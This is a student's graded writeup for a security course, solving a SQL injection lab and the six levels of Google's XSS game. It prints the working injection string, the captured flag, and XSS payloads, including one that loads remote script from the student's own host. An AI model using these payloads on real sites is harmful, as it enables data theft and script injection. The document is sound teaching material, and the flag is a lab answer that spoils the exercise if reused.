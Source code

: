 Writeup 10 - Crypto II
=====

Name: Justin
Section: 0102

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Justin Van Dort

## Assignment 10 Writeup

### Part 1 (70 Pts)

After opening the website, I realized that the only place where user input is accepted is `http://cornerstoneairlines.co:8080/item?id=INPUT`. I also ran `dirb http://cornerstoneairlines.co:8080/` to see if there were any pages which couldn't be found through navigation, but I couldn't find any additional pages. So, after seeing the conveniently bolded **SQL** in the project description, I knew the site would be vulnerable to SQL injection.  

I first tried some of the recommended input from the slides: `' OR '1'='1'`, but recieved an `INTERNAL SERVER ERROR`. This led me to believe that the internal SQL query was in the form `SELECT * FROM table WHERE id = ' + input + ';` (since a single quote produced an error). After some trial and error, I changed the input to `' or '1'='1`, figuring that the server was checking the input for a capitalized `OR` in the user input. 

The server responded with every row in the database, which included the "priceless" item of `CMSC38R-{y0U-are_the_5ql_n1nja}`. 


### Part 2 (30 Pts)

1) Level 1 was very simple. The page did not sanitize the input at all, so any script tags entered into the text field are inserted directly into the HTML. 

```
<script>alert('XSS')</script>
```

2) Level 2 is more difficult than level 1 since it removes any input in between `script` tags. This can be solved by using HTML element attributes. The following HTML is an `input` element, and on focus, the javascript code is ran. The HTML is set up so that the `input` element is auto-focused, so the alert is shown when the page is loaded. 

```
<input type="text" onfocus="alert('XSS')" autofocus="" />
```

3) 

The following code is ran, with the user input from after the `#` in the URL stored in the variable `num`.

```
// Dynamically load the appropriate image.
var html = "Image " + parseInt(num) + "<br>";
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
$('#tabContent').html(html);
```

The following code closes the image element, and adds a script tage after, so the alert script is placed in the HTML.

```
'/><script>alert('XSS')</script>
```

The final URL is:

```
https://xss-game.appspot.com/level3/frame#'/><script>alert('XSS')</script>
```

4) The user input is placed in `timer` in the following code:

```
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

The following user input will start a timer with one second, but also run the alert code. 

```
1');alert('XSS
```

5) Any code in the format `javacript:"code"`, when used as a URL, will run the code portion of the string. The following URL will run the alert when the next button is pressed. 

```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('XSS')
```

6) Since the website does not check if the gadget URL is local or remote, I replaced the server-local URL with a remote URL which contained my own javascript code. The code in the remote file was: `alert('XSS')`. When the following URL is loaded, the website loads the malicous JS and runs it. 

```
https://xss-game.appspot.com/level6/frame#Https://jtvd78.github.io/alert.js
```
